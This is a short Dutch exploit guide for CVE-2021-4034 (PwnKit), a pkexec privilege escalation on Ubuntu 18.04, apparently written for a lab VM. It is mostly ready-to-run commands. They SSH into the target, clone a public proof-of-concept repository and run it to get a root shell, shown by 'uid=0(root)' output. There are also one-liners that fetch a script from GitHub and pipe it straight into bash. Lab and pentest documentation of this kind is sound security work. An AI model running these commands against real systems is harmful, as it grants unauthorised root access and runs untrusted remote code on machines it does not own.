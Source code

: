 # Exploitgids CVE-2021-4034 (PwnKit)

Lokale privilege-escalatie in `pkexec` (Polkit) op Ubuntu 18.04.

## 1. Voorwaarden

- SSH-toegang als `tester` op de Ubuntu VM.
- Internet-connectie om GitHub te bereiken.

## 2. Exploit-repository

https://github.com/cd80-ctf/CVE-2021-4034
alle credits gaan naar cd80-ctf voor de code om de exploit uit te voeren.

## 3. Handmatige stappen

1. SSH naar Ubuntu:

   ```bash
   ssh tester@<ubuntu_ip>
   ```

2. Clone, compile & run:
   ```bash
   git clone https://github.com/cd80-ctf/CVE-2021-4034.git
   cd CVE-2021-4034
   chmod +x run.sh
   ./run.sh
   ```
3. Je hebt nu een root shell:
   ```bash
   # id
   uid=0(root) gid=0(root) groups=0(root)
   ```

## 4. One-liners (geen handmatig clone)

### 4.1 Met git

```bash
ssh tester@<ubuntu_ip> \
  'git clone --depth 1 https://github.com/cd80-ctf/CVE-2021-4034.git \
   && cd CVE-2021-4034 \
   && chmod +x run.sh \
   && ./run.sh'
```

### 4.2 Met curl → bash

```bash
ssh tester@<ubuntu_ip> 'curl -sL https://raw.githubusercontent.com/cd80-ctf/CVE-2021-4034/main/run.sh | bash'
```

## Credits

- Exploit & POC: **cd80-ctf**
  https://github.com/cd80-ctf/CVE-2021-4034
- Originele ontdekking, analyse & writeup : **Qualys Security**

